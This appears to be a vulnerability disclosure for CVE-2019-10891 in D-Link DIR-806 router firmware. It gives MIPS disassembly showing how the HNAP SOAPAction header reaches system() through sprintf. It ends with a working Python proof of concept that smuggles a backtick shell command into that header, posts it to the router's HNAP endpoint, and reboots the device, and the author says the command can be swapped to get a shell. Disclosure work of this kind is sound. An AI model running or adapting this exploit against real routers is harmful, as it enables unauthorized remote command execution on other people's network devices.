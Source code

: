 **CVE-2019-10891**

The fireware is the lasted version of DIR-806 in D-LINK website：
```
http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-806 
```
## Vulnerability Analyze
When the router get the request of HNAP, it will call the hnap_main() function in /htdocs/cgibin,then it get SOAPAction by getenv :
```
.text:00411FAC                 la      $a0, aHttp_authoriza  # "HTTP_AUTHORIZATION"
.text:00411FB0                 lui     $a0, 0x42  # 'B'
.text:00411FB4                 lw      $gp, 0x248+var_230($sp)
.text:00411FB8                 la      $a0, aHttp_soapactio  # "HTTP_SOAPACTION"
.text:00411FBC                 la      $t9, getenv
.text:00411FC0                 jalr    $t9 ; getenv
.text:00411FC4                 move    $s2, $v0
.text:00411FC8                 lui     $a0, 0x42  # 'B'
.text:00411FCC                 lw      $gp, 0x248+var_230($sp)
.text:00411FD0                 la      $a0, aRequest_method  # "REQUEST_METHOD"
.text:00411FD4                 la      $t9, getenv
```
then it will check the SOAPAction start with `http://purenetworks.com/HNAP1/GetDeviceSettings`:
```
.text:00411FF0                 la      $t9, strstr
.text:00411FF4                 la      $a1, aHttpPurenetwor  # "http://purenetworks.com/HNAP1/GetDevice"...
.text:00411FF8                 jalr    $t9 ; strstr
.text:00411FFC                 move    $a0, $s0         # haystack
.text:00412000                 lw      $gp, 0x248+var_230($sp)
.text:00412004                 bnez    $v0, loc_412044
```
then the function will get the string in SOAPAction that after the right "/" by strrchr:
```
.text:00412044                 la      $t9, strrchr
.text:00412048                 move    $a0, $s0         # s
.text:0041204C                 jalr    $t9 ; strrchr
.text:00412050                 li      $a1, 0x2F  # '/'  # c
.text:00412054                 lw      $gp, 0x248+var_230($sp)
.text:00412058                 bnez    $v0, loc_412080
```
finally it will call sprintf to make a shell and call system to run it：
```
.text:00412420                 move    $a0, $s4
.text:00412424                 la      $a2, aVarRun_0   # "/var/run/"
.text:00412428                 b       loc_412440
.text:0041242C                 la      $a1, aShSS_shDevCons  # "sh %s%s.sh > /dev/console"
.text:00412430  # ---------------------------------------------------------------------------
.text:00412430
.text:00412430 loc_412430:                              # CODE XREF: hnap_main+4C4↑j
.text:00412430                 lui     $a1, 0x42  # 'B'
.text:00412434                 move    $a0, $s4         # s
.text:00412438                 addiu   $a2, (aVarRun_0 - 0x420000)  # "/var/run/"
.text:0041243C                 la      $a1, aShSS_shDevCo_0  # "sh %s%s.sh > /dev/console &"
.text:00412440
.text:00412440 loc_412440:                              # CODE XREF: hnap_main+4D8↑j
.text:00412440                 jalr    $t9 ; sprintf
.text:00412444                 move    $a3, $s0
.text:00412448                 lw      $gp, 0x248+var_230($sp)
.text:0041244C                 la      $t9, system
.text:00412450                 jalr    $t9 ; system
```
so when we make a fake SOAPAction start with `http://purenetworks.com/HNAP1/GetDeviceSettings` and end with `/our cmd`,it will finally execv our cmd in system function
## POC
```
from pwn import *
import requests
import sys

data="<?xml version=\"1.0\" encoding=\"UTF-8\"?>\
<soap:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\" soap:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\
  <soap:Body>\
    <GetWanSettings xmlns=\"http://purenetworks.com/HNAP1/\">\
    </GetWanSettings>\
  </soap:Body>\
</soap:Envelope>"

if __name__=="__main__":
    cmd="reboot" #the shell you want execv,it can't include "/"
    fake_cmd="http://purenetworks.com/HNAP1/GetDeviceSettings/`%s`"  %cmd
    print fake_cmd
    header = {
        'SOAPAction' : fake_cmd,
        'Cookie'        : "uid=LS32Srlx8N",
        'Content-Type'  : 'text/xml',
        'Content-Length': str(len(data))
        }
    url="http://192.168.0.1/HNAP1/"
    r=requests.post(url=url,headers=header,data=data)
    print r.content
    log.info("Kirin-say PWN")
```
when you run this poc,it will reboot the router(DIR-806),and you can also edit the cmd you want to run to get shell or something else.
For example(I run the fireware in firm dyne and run its web server,when I run the POC,the router reboot successfully)
![Success](https://upload-images.jianshu.io/upload_images/7434375-62cf44267ffd84b5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
